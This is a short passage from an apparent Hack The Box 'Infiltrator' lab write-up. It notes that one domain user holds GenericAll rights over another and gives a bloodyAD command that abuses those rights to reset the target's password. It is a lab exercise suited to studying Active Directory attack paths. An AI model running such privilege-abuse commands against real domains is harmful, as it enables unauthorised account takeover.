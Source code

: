 The user D.ANDERSON@INFILTRATOR.HTB has GenericAll privileges to the user E.RODRIGUEZ@INFILTRATOR.HTB.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

![[Pasted image 20240904201810.png]]

```bash
bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos -u "d.anderson" -p '<password>' set password "e.rodriguez" 'Password123'
```

